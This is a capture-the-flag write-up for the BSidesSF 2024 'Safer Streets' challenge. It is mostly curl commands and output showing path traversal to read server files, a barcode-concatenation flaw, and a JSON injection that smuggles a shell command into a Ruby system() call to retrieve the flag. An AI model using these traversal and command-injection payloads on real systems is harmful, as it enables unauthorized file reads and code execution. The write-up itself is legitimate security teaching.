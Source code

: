 ```yaml
---
title: 'BSidesSF 2024 Writeups: Safer Streets (Web / reversing)'
author: ron
layout: post
categories:
- bsidessf-2024
- ctfs
---
```


This is a write-up for [Safer Streets](https://github.com/BSidesSF/ctf-2024-release/tree/main/safer-streets). I apparently wrote this in more "note to self" style, not blog style, so enjoy!

<!--more-->

First, browse the application. You should be able to create an error:

```
$ curl 'http://localhost:8080/display?name=test'
Error in script /app/server.rb: No such file or directory @ rb_sysopen - /app/data/test
```

Note that has a `image/jpeg` content-type, so it might confuse the browser.

That issue grants access to two primitives:

a) Read any file via path traversal

b) The full path to the server

For example:

```bash
$ curl -s 'http://localhost:8080/display?name=../server.rb' | head -n20
require 'json'
require 'sinatra'
require 'pp'
require 'singlogger'
require 'open3'

::SingLogger.set_level_from_string(level: ENV['log_level'] || 'debug')
LOGGER = ::SingLogger.instance()

# Ideally, we set all these in the Dockerfile
set :bind, ENV['HOST'] || '0.0.0.0'
set :port, ENV['PORT'] || '8080'

SAFER_STREETS_PATH = ENV['SAFER_STREETS'] || '/app/safer-streets'

SCRIPT = File.expand_path(__FILE__)

LOGGER.info("Checking for required binaries...")
if File.exist?(SAFER_STREETS_PATH)
  LOGGER.info("* Found `safer-streets` binary: #{ SAFER_STREETS_PATH }")
[...]
```

You can grab the `safer-streets` binary as well:

```bash
$ curl -s 'http://localhost:8080/display?name=../../../app/safer-streets' | file -
/dev/stdin: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=fa512a55e0fbc8c4ad80483379826183f29ce161, for GNU/Linux 3.2.0, with debug_info, not stripped
```

Inspecting the Ruby code shows an shell-injection issue if you control the output of `safer-streets`:

```bash
system("/usr/bin/report-infraction --node='#{result['node']}' --img='#{photo}'")
```

You can reverse or mess with the binary to discover that it's looking for an image file parameter:

```bash
$ safer-streets upc.png 
{
  "node": "52d11b6dba5e",
  "speed": "-1",
  "plate": "0123456789104"
}
```

But it won't work on non-UPC codes. I generated a barcode using [Code128](https://github.com/fhunleth/code128), then tried to decode it:

```bash
$ ./code128png exploit.png 'TEST CODE128'

$ file exploit.png 
exploit.png: PNG image data, 176 x 40, 1-bit grayscale, non-interlaced

$ safer-streets ./exploit.png 
{
  "node": "52d11b6dba5e",
  "speed": "-1",
Invalid plate type: CODE-128!
```

But the logic is actually faulty; here's the C code:

```c
    zbar_symbol_type_t typ = zbar_symbol_get_type(sym);

    for (; sym; sym = zbar_symbol_next(sym)) {
      // unsigned len         = zbar_symbol_get_data_length(sym);
      if (typ == ZBAR_PARTIAL)
        continue;

      if(strcmp(zbar_get_symbol_name(typ), "EAN-13")) {
        fprintf(stderr, "Invalid plate type: %s!\n", zbar_get_symbol_name(typ));
        exit(1);
      }

      printf("%s", zbar_symbol_get_data(sym));
    }
```

Note that the `typ` check is outside the loop, which means if you have multiple barcodes they'll get concatenated (I hinted at that in one of the preview images by having two UPC codes) (it also needs to be bigger):

```bash
$ mogrify -resize '200%x200%' exploit.png && montage -tile 1x2 -geometry +8+8 exploit.png upc.png combined.png

$ ./safer-streets combined.png 
{
  "node": "52d11b6dba5e",
  "speed": "-1",
  "plate": "0123456789104TESTCODE128"
}
```

Using that technique, you can do some JSON injection to add an extra node field:

```bash
$ ./code128png exploit.png 'test", "node": "hi' && mogrify -resize '200%x200%' exploit.png && montage -tile 1x2 -geometry +8+8 exploit.png upc.png combined.png
```

Which will mess up the parsing:

```bash
$ ./safer-streets combined.png 
{
  "node": "52d11b6dba5e",
  "speed": "-1",
  "plate": "0123456789104test","node":"hi"
}
```

With `jq`, note that we can control `"hi"`:

```bash
$ ./safer-streets combined.png  | jq
{
  "node": "hi",
  "speed": "-1",
  "plate": "0123456789104test"
}
```

That, with the shell injection we mentioned above, we can create ourselves a payload:

```bash
./code128png exploit.png "test\", \"node\": \"hi'; /home/ctf/print-flag > /tmp/flag.txt; #" && mogrify -resize '200%x200%' exploit.png && montage -tile 1x2 -geometry +8+8 exploit.png upc.png combined.png
```

Then submit that and grab the flag:

```bash
$ curl -F "photo=@./combined.png" http://localhost:8080/upload
$ curl 'http://localhost:8080/display?name=../../../../tmp/flag.txt'
CTF{show-me-your-best-images}
```
